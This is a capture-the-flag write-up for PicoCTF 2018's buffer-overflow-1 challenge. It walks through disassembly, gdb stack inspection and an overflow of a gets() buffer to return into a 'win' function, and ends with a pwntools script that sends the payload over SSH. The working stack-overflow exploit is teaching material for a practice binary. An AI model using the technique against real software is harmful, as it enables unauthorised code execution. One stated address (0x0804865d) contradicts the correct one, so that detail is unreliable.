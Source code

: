 # Write-up for buffer-overflow-1 challenge
# PicoCTF_2018: buffer-overflow-1

**Category:** Binary Exploitation
**Points:** 200

> Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this program? 
You can find it in /problems/buffer-overflow-1_3_af8f83fb19a7e2c98e28e325e4cacf78 on the shell server. Source

Let's run the program first.

```console
$ ./vuln
Please enter your string: 
AAAA
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
```
Okay, we see that it takes an input and then it jumps to an address. 
It's time to disassemble the program.

```asm
Dump of assembler code for function main:
   0x0804865d <+0>:	lea    ecx,[esp+0x4]
   0x08048661 <+4>:	and    esp,0xfffffff0
   0x08048664 <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048667 <+10>:	push   ebp
   0x08048668 <+11>:	mov    ebp,esp
   0x0804866a <+13>:	push   ecx
   0x0804866b <+14>:	sub    esp,0x14
   0x0804866e <+17>:	mov    eax,ds:0x804a03c
   0x08048673 <+22>:	push   0x0
   0x08048675 <+24>:	push   0x2
   0x08048677 <+26>:	push   0x0
   0x08048679 <+28>:	push   eax
   0x0804867a <+29>:	call   0x8048490 <setvbuf@plt>
   0x0804867f <+34>:	add    esp,0x10
   0x08048682 <+37>:	call   0x8048450 <getegid@plt>
   0x08048687 <+42>:	mov    DWORD PTR [ebp-0xc],eax
   0x0804868a <+45>:	sub    esp,0x4
   0x0804868d <+48>:	push   DWORD PTR [ebp-0xc]
   0x08048690 <+51>:	push   DWORD PTR [ebp-0xc]
   0x08048693 <+54>:	push   DWORD PTR [ebp-0xc]
   0x08048696 <+57>:	call   0x80484b0 <setresgid@plt>
   0x0804869b <+62>:	add    esp,0x10
   0x0804869e <+65>:	sub    esp,0xc
   0x080486a1 <+68>:	push   0x8048810
   0x080486a6 <+73>:	call   0x8048460 <puts@plt>
   0x080486ab <+78>:	add    esp,0x10
   0x080486ae <+81>:	call   0x804862f <vuln>
   0x080486b3 <+86>:	mov    eax,0x0
   0x080486b8 <+91>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x080486bb <+94>:	leave  
   0x080486bc <+95>:	lea    esp,[ecx-0x4]
   0x080486bf <+98>:	ret    
End of assembler dump.
```
`vuln()` is where we wanna go because it's probably vulnerable.

```asm
Dump of assembler code for function vuln:
   0x0804862f <+0>:	push   ebp
   0x08048630 <+1>:	mov    ebp,esp
   0x08048632 <+3>:	sub    esp,0x28
   0x08048635 <+6>:	sub    esp,0xc
   0x08048638 <+9>:	lea    eax,[ebp-0x28]
   0x0804863b <+12>:	push   eax
   0x0804863c <+13>:	call   0x8048430 <gets@plt>
   0x08048641 <+18>:	add    esp,0x10
   0x08048644 <+21>:	call   0x80486c0 <get_return_address>
   0x08048649 <+26>:	sub    esp,0x8
   0x0804864c <+29>:	push   eax
   0x0804864d <+30>:	push   0x80487d4
   0x08048652 <+35>:	call   0x8048420 <printf@plt>
   0x08048657 <+40>:	add    esp,0x10
   0x0804865a <+43>:	nop
   0x0804865b <+44>:	leave  
   0x0804865c <+45>:	ret    
End of assembler dump.
```

We found program's vulnerability: 

**0x0804863c <+13>:	call   0x8048430 <gets@plt>**

gets() function is  dangerous. See man page of gets:
```console
BUGS
       Never use gets().  Because it is impossible to tell without knowing the data in advance how many
       characters gets() will read, and because gets() will continue to store characters past  the  end
       of  the  buffer, it is extremely dangerous to use.  It has been used to break computer security.
       Use fgets() instead.
```


So, if we do a buffer overflow we can take control of the return address (return address is stored at $ebp + 0x4) and redirect program's execution.

But where we would like to jump?

Let's search for a suspicious function:
```console
$ objdump -t ./vuln
.
.
.
00000000       F *UND*	00000000              __libc_start_main@@GLIBC_2.0
080486d0 g     F .text	0000005d              __libc_csu_init
080485cb g     F .text	00000064              win
00000000       F *UND*	00000000              setvbuf@@GLIBC_2.0
00000000       F *UND*	00000000              fopen@@GLIBC_2.1
0804a044 g       .bss	00000000              _end
080484d0 g     F .text	00000000              _start
08048748 g     O .rodata	00000004              _fp_hw
0804a03c g     O .bss	00000004              stdout@@GLIBC_2.0
0804a03c g       .bss	00000000              __bss_start
0804865d g     F .text	00000063              main
00000000  w      *UND*	00000000              _Jv_RegisterClasses
0804a03c g     O .data	00000000              .hidden __TMC_END__
00000000       F *UND*	00000000              setresgid@@GLIBC_2.0
00000000  w      *UND*	00000000              _ITM_registerTMCloneTable
080483ec g     F .init	00000000              _init
```

Ohh, we found a win function lying at 0x0804865d. Nice, that's where we wanna return.

How could we do that?

gdb is here to help us:
Remember this instruction:
```asm
0x08048638 <+9>:	lea    eax,[ebp-0x28]
```
This tells us that buffer's size for our input is 0x28 (40 in decimal). 

```gdb
=> 0x0804863b <vuln+12>:	50	push   eax
(gdb) info registers
eax            0xffffcd90          -12912
ecx            0xffffffff          -1
edx            0xffffffff          -1
ebx            0x0                 0
esp            0xffffcd84          0xffffcd84
ebp            0xffffcdb8          0xffffcdb8
esi            0xf7fad000          -134557696
edi            0xf7fad000          -134557696
eip            0x804863b           0x804863b <vuln+12>
eflags         0x296               [ PF AF SF IF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
(gdb) x/32wx $esp
0xffffcd84:	0xf7fad000	0x0804a03c	0x0000001a	0xffffcdd8
0xffffcd94:	0xf7fe8e24	0x000003e8	0x00000000	0xf7fad000
0xffffcda4:	0xf7fad000	0xffffcdd8	0x080486ab	0x08048810
0xffffcdb4:	0x000003e8	0xffffcdd8	0x080486b3	0x00000001
0xffffcdc4:	0xffffce84	0xffffce8c	0x000003e8	0xf7fe39f0
0xffffcdd4:	0xffffcdf0	0x00000000	0xf7de2fb9	0xf7fad000
0xffffcde4:	0xf7fad000	0x00000000	0xf7de2fb9	0x00000001
0xffffcdf4:	0xffffce84	0xffffce8c	0xffffce14	0x00000001
```

So, 40 bytes seperate our input and the base of the stack (where previous ebp is stored). Inside ebp + 0x4 is return address, where
our program will return after RET instruction.
We are 44 bytes far from our goal (to change the return address).

So, if our input is 44 A's and the next 4 bytes are B's where would our program return?
Let's see:

```bash
python -c 'print "A"*44 + "B"*4' > payload
./vuln < payload
```

Running these commands we take:

```console
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x42424242
Segmentation fault (core dumped)
```

Exactly, we jumped to 0x42424242 which are the 4 B's(ascii-hex value of them).
Now, let's change the B's with the win's address.

```bash
python -c 'print "A"*44 + "\xcb\x85\x04\x08"' > payload
./vuln < payload
```

That's all. We did it.

> # Crafting python script

To get immediately the flag from the server of picoCTF we create a python script using pwn tools:

```python
#!/usr/bin/python

from pwn import *
import struct

user = 'XXXX'
pw = 'XXXX'

#crafting payload
payload = ''
payload += "A"*44
payload += struct.pack("I", 0x080485cb) #python helps us parse this as a string

#if input was 0x080485cd our program would read it in ascii format(which is something totally different).

s = ssh(host = '2018shell4.picoctf.com', user = user, password = pw)
s.set_working_directory('/problems/buffer-overflow-1_3_af8f83fb19a7e2c98e28e325e4cacf78')

r = s.process('./vuln')
print r.recv()
r.sendline(payload)
print r.recv()
r.close()
```

